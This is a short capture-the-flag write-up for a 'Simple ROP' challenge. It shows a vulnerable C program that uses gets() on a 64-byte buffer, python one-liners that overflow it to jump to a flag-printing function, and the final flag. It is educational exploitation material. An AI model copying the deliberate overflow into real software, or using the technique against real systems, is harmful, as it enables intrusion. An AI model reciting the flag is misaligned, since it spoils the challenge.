 # Simple ROP - 120 Points

#### phsst - VoidMercy's writeup

We were given a binary and it's source code.

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void print_flag();
void what_did_you_say();

int main(int argc, char* argv[])
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    what_did_you_say();
    return 0;
}

void print_flag()
{
    system("cat flag.txt");
}

void what_did_you_say()
{
    char buff[64];
    gets(buff);
    printf("You said: %s\n", buff);
}
```

As the problem name suggests, this is a problem that uses ROP. We can see that we have to call the function print_flag() to get the flag, so we first get the address of this function with:

>objdump -d simplerop | grep "print_flag"

We find the address of print_flag to be: 0x804851a

Then, we have to find out the number of characters until we gain control of eip through the return address. Afterwards we append the address of print_flag() in little endian order (reversed order in chunks of 2 bytes), then pipe the input through python (to print the non printable ascii characters).

```
python -c 'print "A"*64+"\x1a\x85\x04\x08"' | ./simple-rop #NO SEG FAULT, NOT ENOUGH CHARACTERS

python -c 'print "A"*76+"\x1a\x85\x04\x08"' | ./simple-rop #GOT THE FLAG! 76 IS A PRETTY COMMON SIZE FOR AN ARRAY OF 64 CHARS
```

## Flag

>easyctf{r0p_7o_v1ct0ry}
